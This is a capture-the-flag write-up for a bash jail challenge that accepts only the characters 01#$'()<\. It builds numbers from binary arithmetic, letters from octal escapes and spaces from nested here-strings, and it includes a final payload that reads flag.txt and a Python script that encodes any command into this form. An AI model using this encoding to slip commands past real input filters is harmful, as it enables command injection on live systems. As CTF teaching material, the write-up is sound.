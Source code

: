 ```yaml
---
created: 2024-08-03T16:18
updated: 2024-08-04T13:59
solves: 16
points: 476
---
```


## analysis
With some quick trial and error (trying all printable chars), we can obtain the valid charset this shell accepts.

```
01#$'()<\
```

That is very little indeed.

## step 1: numbers
Obviously at some point we need to obtain letters, and before that we need numbers.

A great candidate would be octal representation of characters `\000`.

How would we obtain numbers?

We can use `$((2#00010))` to convert from binary representation to decimal.

And we can obtain the 2 via `$((1<<1))`.

Putting them together we can now construct any number with `$(($((1<<1))#000101))`.

## step 2: characters

> Characters can be written as the octal form `\nnn` using numbers.

However, simply putting numbers together doesn't make them letters. 😢

The escape sequence `ls` can be written as `\\1$(($((1<<1))#101))$(($((1<<1))#100))\\1$(($((1<<1))#110))$(($((1<<1))#11))`.
But it would not run as `ls`.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722717087/2024/08/3a67ead104579fdc188d6cae78bb9c98.png)

I got stuck on this for a long time (very long time), until I stumbled upon writeups for a past CTF challenge `minbashmaxfun`.

I can use `bash<<<\$\'\\1$(($((1<<1))#101))$(($((1<<1))#100))\\1$(($((1<<1))#110))$(($((1<<1))#11))\'` to run `ls`.

And since we are in bash, that would mean `$0<<<'...'`.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722717507/2024/08/4173577f7e6a6375aed6d2a998c90c43.png)

## step 3: spaces

However, we still have another issue.

Using the above method we can indeed run any command, but arguments (and spaces) are interpreted as part of the command.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722716940/2024/08/793bab89e87bd1830be75bb94b7f435d.png)

I, again, got stuck for quite a while until I stumbled upon another writeup for the same challenge `minbashmaxfun`.

The solution is simple, use another layer of `bash<<<`.

The final solution would be something like this.

```bash
bash<<<bash\<\<\<\$\'cat(smthhere)flag.txt\' # space here is in escape form
bash<<<$'cat flag.txt' # space becomes a space
cat flag.txt # profit
```

## solve script

The final payload is.

```bash
$0<<<$0\<\<\<\$\'\\1$(($((1<<1))#100))$(($((1<<1))#11))\\1$(($((1<<1))#100))1\\1$(($((1<<1))#110))$(($((1<<1))#100))\\0$(($((1<<1))#100))0\\1$(($((1<<1))#100))$(($((1<<1))#110))\\1$(($((1<<1))#101))$(($((1<<1))#100))\\1$(($((1<<1))#100))1\\1$(($((1<<1))#100))$(($((1<<1))#111))\\0$(($((1<<1))#101))$(($((1<<1))#110))\\1$(($((1<<1))#110))$(($((1<<1))#100))\\1$(($((1<<1))#111))0\\1$(($((1<<1))#110))$(($((1<<1))#100))\'
```

The translator is a python script I wrote.

```python
import string


def repl_nums(c):
    if c in '01':
        return c
    return f"$(($((1<<1))#{bin(int(c))[2:]}))"


def t(c):
    # if c not in "01#$'()<\\":
    return '\\\\'+''.join([repl_nums(_) for _ in oct(ord(c))[2:].zfill(3)])
    # return c

payload = "cat flag.txt"
payload = ''.join([t(c) for c in payload])
out = f"$0<<<$0\\<\\<\\<\\$\\'{payload}\\'"
print(out)
```

```flag
TFCCTF{fb1_0p3n_up!!!!__0x410x410x410x41}
```
